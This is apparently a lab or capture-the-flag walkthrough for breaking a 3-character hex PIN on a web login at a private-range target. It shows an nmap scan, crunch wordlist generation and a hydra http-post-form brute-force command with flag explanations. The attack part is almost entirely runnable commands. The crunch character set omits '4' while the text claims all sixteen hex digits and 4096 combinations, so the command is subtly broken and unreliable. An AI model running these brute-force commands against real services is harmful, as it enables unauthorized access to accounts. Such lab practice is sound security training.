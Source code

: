 ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------
## 10.10.152.38 is the IP address of the target

nmap 10.10.152.38 

      port 22,8000 open
      
10.10.152.38:8000 redirects to --> /login.php/pin

 [1] pin possible input :

    [*] : 0123456789abcdef 
    [*] : 3 min 
    [*] : 3 max

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------
## creating combolist with crunch 
crunch 3 3 012356789abcdef -o 3digits.txt 
    
    [*] : creating list of password named 3digits.txt 
    [*] : 3 as a minimum
    [*] : 3 as a maximum 
    [*] : 012356789abcdef is the regex
    [*] : 16*16*16 possibilities = 4096 possibility

## bruteforcing website´s pin with hydra 

hydra -l '' -P 3digits.txt -f -v 10.10.152.38 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000 

    -l '' indicates that the login name is blank as the security lock only requires a password
    -P 3digits.txt specifies the password file to use
    -f stops Hydra after finding a working password
    -v provides verbose output and is helpful for catching errors
    
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------
## Details :
    http-post-form specifies the HTTP method to use
    "/login.php:pin=^PASS^:Access denied" has three parts separated by :
    /login.php is the page where the PIN code is submitted
    pin=^PASS^ will replace ^PASS^ with values from the password list
    Access denied indicates that invalid passwords will lead to a page that contains the text “Access denied”
    -s 8000 indicates the port number on the target
